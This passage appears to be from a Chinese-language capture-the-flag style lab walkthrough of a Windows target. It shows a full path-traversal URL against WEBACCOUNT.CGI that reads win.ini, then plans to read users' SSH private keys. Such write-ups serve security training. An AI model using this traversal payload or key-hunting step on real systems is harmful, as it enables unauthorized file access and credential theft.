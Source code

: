 未找到可利用点，使用searchsploit检索漏洞，用得上的只有一个文件读取，访问下面url成功读取win.ini

```
http://192.168.220.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fwin.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=
```

![image-20250310130329804](./PG_win.assets/image-20250310130329804.png)

之前nmap扫描结果显示开放了22端口，搜索一下windows私钥位置`C:\Users\用户名\.ssh\id_rsa`

直接读取Administrator私钥显示不存在，在http服务User这里还有一个用户Viewer

![image-20250310130945762](./PG_win.assets/image-20250310130945762.png)
